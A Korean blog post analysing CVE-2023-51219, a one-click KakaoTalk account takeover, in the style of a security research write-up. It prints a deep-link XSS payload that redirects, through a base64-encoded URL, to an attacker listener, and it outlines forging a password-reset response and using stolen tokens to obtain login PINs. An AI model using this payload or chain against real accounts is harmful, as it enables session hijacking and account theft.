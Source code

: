```yaml
---
title: CVE-2023-51219 Kakaotalk One Click Exploit
published: 2025-06-02
description: " "
tags: [One_day_analysis]
category: analysis
draft: false
---
```


:::note
https://stulle123.github.io/posts/kakaotalk-account-takeover/  
stulle123님의 블로그를 기반으로 합니다.
:::

카카오 버그바운티에 자주 참여하는 사람으로써 해당 취약점 분석을 안해볼 수 없었습니다.
`stulle123`님의 블로그와 관련 자료를 기반으로 하여, 구버전 카톡을 분석하였습니다

공격자는 해당 취약점을 이용해 원클릭으로 상대의 카카오톡 세션을 탈취할 수 있었습니다.

공격루틴은 아래와 같습니다

### 1. XSS를 통한 access token 탈취
```
kakaotalk://buy/auth/0/cleanFrontRedirect?returnUrl=https://m.shoppinghow.kakao.com/m/product/Q24620753380/q:"><img src=x onerror="document.location=atob('aHR0cDovLzE5Mi4xNjguMTc4LjIwOjU1NTUv');">
```
카카오톡 Android 앱의 `CommerceBuyActivity`는 딥링크를 통해 외부 웹페이지를 WebView로 로드합니다.
공격자는 이를 이용해 위와 같은 XSS 페이로드를 작성했습니다.

`CommerceBuyActivity`에서 `kakaotalk://buy/hello`는 `https://buy.kakao.com/hello`와 같이 해석되어 URL을 로드합니다.

이 상태에서는 buy.kakao.com에서 xss를 터트리는 것 외에는 방법이 없어보입니다.
따라서 분석자는 `https://buy.kakao.com/auth/0/cleanFrontRedirect?returnUrl=`에서 Open Redirect 취약점을 찾아 다른 xss 포인트로 옮기는 방법을 사용했습니다.

`shoppinghow.kakao.com`에서 DOM기반 XSS 취약점이 터져 해당 포인트에서 익스플로잇 했습니다.

### 2. 카카오 메일 계정 탈취
서버로 요청된 `Authorization` 헤더에서 카카오 계정 access token이 노출됩니다

카카오 계정 토큰을 가지고 카카오 메일의 토큰을 만들었고 카카오 메일 계정을 탈취했습니다

1. 비밀번호 재설정을 요청합니다
2. `/kakao_accounts/check_verify_type_for_find_password.json` 패킷을 위조해 재설정 인증번호를 카카오 메일로 받습니다
```json
{
  "status": 0,
  "verify_types": [
    0
  ],
  "suspended": false,
  "dormant": false,
  "kakaotalk": false,
  "expired": false,
  "created_at": 1700754321,
  "two_step_verification": false,
  "is_fill_in_email": false,
  "account_type": 0,
  "display_id": null
}
```

- `verify_types`을 변경해 확인코드가 폰 대신 이메일로 전송되게 만들었다고 합니다

이를 통해 탈취한 이메일로 인증번호를 받아 비밀번호를 변경했습니다

### 3. 카카오톡 계정 탈취
카카오톡 로그인에는 4자리 핀코드를 입력하는 2차 인증이 기본적으로 설정 되어 있습니다.

https://talk-pilsner.kakao.com/talk-public/account/passcodeLogin/authorize
https://katalk.kakao.com/win32/account/register_device.json

각각 모바일, PC에서의 인증번호를 받는 HTTP API 입니다.

탈취한 access_token을 사용해 PIN 번호를 임의로 가져올 수 있었습니다.

이로써 공격자는 완전히 피해자의 카카오톡 계정을 탈취했습니다.
